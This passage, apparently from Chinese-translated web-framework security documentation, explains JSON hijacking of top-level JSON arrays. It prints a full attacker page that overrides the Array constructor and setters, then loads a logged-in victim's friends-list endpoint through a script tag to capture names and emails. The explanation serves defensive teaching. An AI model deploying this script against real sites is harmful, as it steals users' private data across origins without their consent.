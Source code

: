 
那么，问题是什么，并且怎样避免？问题是 JSON 中数组是一等公民。想象你在
一个 JSON 请求中发送下面的数据。比如 JavaScript 实现的用户界面的一部分，
导出你所有朋友的名字和邮件地址。并不罕见:




```
[
    {"username": "admin",
     "email": "admin@localhost"}
]

```






这当然只在你登入的时候，且只为你这么做。而且，它对一个特定 URL 上的所有
GET 请求都这么做。比如请求的 URL 是
http://example.com/api/get_friends.json


那么如果一个聪明的黑客把这个嵌入到他自己的网站上，并用社会工程学使得受害
者访问他的网站，会发生什么:




```
<script type=text/javascript>
var captured = [];
var oldArray = Array;
function Array() {
  var obj = this, id = 0, capture = function(value) {
    obj.__defineSetter__(id++, capture);
    if (value)
      captured.push(value);
  };
  capture();
}
</script>
<script type=text/javascript
  src=http://example.com/api/get_friends.json></script>
<script type=text/javascript>
Array = oldArray;
// now we have all the data in the captured array.
</script>

```






如果你懂得一些 JavaScript 的内部工作机制，你会知道给构造函数打补丁和为
setter 注册回调是可能的。一个攻击者可以利用这点（像上面一样上）来获取
所有你导出的 JSON 文件中的数据。如果在 script 标签中定义了内容类型是
text/javascript ，浏览器会完全忽略 application/json 的
mimetype ，而把其作为 JavaScript 来求值。因为顶层数组元素是允许的（虽然
没用）且我们在自己的构造函数中挂钩，在这个页面载入后， JSON 响应中的数据
会出现在 captured 数组中。
